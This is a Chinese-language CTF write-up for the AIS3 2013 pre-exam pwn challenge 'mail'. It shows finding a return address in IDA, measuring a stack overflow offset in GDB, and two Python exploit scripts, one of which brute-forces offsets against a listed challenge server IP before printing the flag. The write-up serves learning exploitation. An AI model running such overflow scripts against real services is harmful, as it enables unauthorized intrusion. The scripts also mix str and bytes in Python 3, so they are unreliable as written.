



# AIS3 pre-exam 2013: mail

**Category:** PWN  
**Points:** 1  

## Write-up

提供了一個 nc [ip] 連線以及一個用 C 語言編寫的執行檔 [mail](./mail-499178aff98b72de136cb2a9ebd357db0f7ca39940c2fca079016a2f0ce5e319)  

連線成功之後會要求輸入兩個參數  
> reciever:  
content:  
  
接著就直接丟到 IDA 上直接 F5 照妖鏡了，不過問題就接著出現了。  
在 IDA 上雖然可以檢視反編譯過後的原始碼，但始終看不出要如何算 STACK，不過有看到的是目標 Function `reply` 的 address `0x0000000000400796`   

最後就直接透過 GDB 直接衝一波，透過大量塞字串的方式，並查看 REP 覆蓋狀況，最後發現字串長度 836 開始就會覆蓋到 RBP

  

接著就很開心的撰寫 Payload  

> **參考:**  
> [緩衝區溢位攻擊之一(Buffer Overflow)](https://medium.com/@ktecv2000/緩衝區溢位攻擊之一-buffer-overflow-83516aa80240)

**Payload:**

```python
#!/usr/bin/python3
# payload.py
import struct
print(("A" * 836 + struct.pack("<Q", 0x0000000000400796)))
```

接著透過 Linux 指令把他 dump 出來  
`payload.py > payload`  

**本機測試(GDB)**  
  
使用的長度發現有成功的指向 replay 於是就心滿意足了的直接上 nc 測試...

解過卻沒得到 Flag...  
於是想了另一種解法，這應該算是爆破了吧...XD

```python
#!/usr/bin/python3
# main.py
from pwn import *
import struct
ip   = '104.199.235.135'
prot = 2111

for i in range(800, 900):
	r = remote(ip, prot)
	try:
		print(i)
		target = ("A" * i + struct.pack("<Q", 0x0000000000400796))
		print(r.sendline())			#reciever:
		print(r.sendline(target))	#content:
		print(r.recvline())
		print(r.recvline())
		print(r.interactive())
	except:
		print('error')
```
結果長度是 840... 整整只差了 4Byte  
似乎是忘記把 RBP 覆蓋掉

**Flag**  

  

`AIS3{3hY_d0_yOU_Kn0uu_tH3_r3p1Y?!_I_d0nt_3ant_t0_giu3_QwQ}`